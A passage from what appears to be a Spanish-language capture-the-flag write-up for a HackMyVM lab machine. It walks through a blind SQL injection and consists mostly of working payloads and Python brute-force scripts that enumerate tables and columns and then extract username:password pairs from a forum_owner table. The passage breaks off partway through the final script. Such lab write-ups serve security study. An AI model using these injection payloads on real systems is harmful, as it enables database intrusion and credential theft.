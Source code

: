 Lo ejecutamos y obtenemos los nombres de las tablas.
```bash
❯ python3 sqlTables.py
[←] Aplicando fuerza Bruta :: Probando con el caracter - [19/20] [5/5]
[|] tables:: forum_category, forum_owner, forum_posts, forum_topics, forum_users
```
Teniendo los nombres de las tablas podemos pasar a el nombre de las columnas voy a dumpear las columnas para la tabla <span style="color:green;">forum_owner</span> , para esto simplemente va a cambiar el contenido de la variable <span style="color:green;">payload</span> por el siguiente contenido.
```bash
payload = "1 and if(substring((select column_name from information_schema.columns where table_schema='forumtesting' and table_name='forum_owner' limit %d,1),%d,1)='%c', sleep(0),1)" % (limit, position, character)
 ```
Una vez sustituido el valor de la variable payload por este nuevo lo volvemos a ejecutar.
```bash
❯ python3 sqlColumns.py
[▇] Aplicando fuerza Bruta : 1 and if(substring((select column_name from information_schema.columns where table_schema='forumtesting' and table_name='forum_owner' limit 9,1),15,1)='-', sleep(0),1)
[<] columns: created, email, id, password, username
```
Bueno ahora simplemente tenemos que dumpear los datos de las columnas username y password.

El script final quedaria asi.
```bash
#!/usr/bin/python3

import signal, time, requests, string
from pwn import *

def ctrl_c(sig, frame):

    print("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables
url = 'http://forumtesting.literal.hmv/category.php?category_id='
characters = string.ascii_lowercase + string.digits + '$/:'

def makeRequest():
    
    credentials = ''
    
    l1 = log.progress('Aplicando fuerza Bruta ')
    
    l2 = log.progress('columns')

    lengt = 20

    for position in range(1,150):

        for character in characters:
            
            payload = "1 and if(substring((select group_concat(username,0x3a,password) from forum_owner),%d,1)='%c', sleep(0),1)" % (position, character)

            l1.status(payload)
            
            main_url = url + payload
            
            r = requests.get(main_url)
            
```